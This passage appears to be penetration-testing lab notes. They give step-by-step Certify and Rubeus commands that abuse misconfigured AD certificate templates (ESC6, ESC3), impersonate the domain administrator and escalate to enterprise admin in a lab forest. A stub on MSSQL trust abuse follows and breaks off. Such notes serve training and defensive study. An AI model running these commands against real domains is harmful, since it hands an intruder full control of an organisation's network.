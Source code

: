 ```powershell
# In the case a template has the EDITF_ATTRIBUTESUBJECTALTNAME2 flag set and we can enroll it, we can abuse ESC6
# request a certificate adding the Alternative name of Administrator
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"CA-Integration" /altname:administrator

# Cut and paste the output into a esc6.pem file
# Then use openssl tool to convert to pfx (supply a password to encrypt the private key)
openssl pkcs12 -in esc6.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc6.pfx

# Then request a TGT as administrator supplying the ESC6.pfx as authentication
Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:SecretPass@123 /ptt

### ESC3 abuse
# In the case we need to have
# a vulnerable template where the EKU contains "Certificate Request Agent" and we can enroll it
# a second template that has a setting in "issuance requirements" with a "certificate Request Agent" as application policy
# This second template must have a "Client authentication" EKU

# In this case we have to request two certificates.
# Temaplte "SmartCardEnrollment-Agent" to create the request agent
 
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"SmartCardEnrollment-Agent"
# Save the output anc convert to a pfx named (for example) esc3agent.pfx

# Next use this pfx to request a cetificate on behalf of administrator (domain admin, not enteprise admin)
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"SmartCardEnrollment-Users" /onbehalfof:dollarcorp\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123

# Next save the output and convert to esc3.pfx
Rubeus.exe asktgt /user:administrator /certificate:esc3.pfx /password:SecretPass@123 /ptt

# Now we're domain admin in dcorp domain
# WE can escalte to EA changing the onbehalof paramenter
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"SmartCardEnrollment-Agent" /onbehalfof:moneycorp.local\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123

# Save the output and convet to esc3agent-EA.pfx
# Pass the certificate to forest root
Rubeus.exe asktgt /user:administrator /certificate:esc3agent-EA.pfx /password:SecretPass@123 /dc:mcorp-dc.moneycorp.local /user:moneycorp.local\administrator /ptt
```

# Trust Abuse MSSQL Servers
```powershell
# MS SQL Server can be used for lateral movement because domain users can be mapped to Database roles.
# Also because there can be couigfration 
```
#### Tools
#### PowerUpSQL:
```powershell
. .\PowerUpSQL.ps1
```
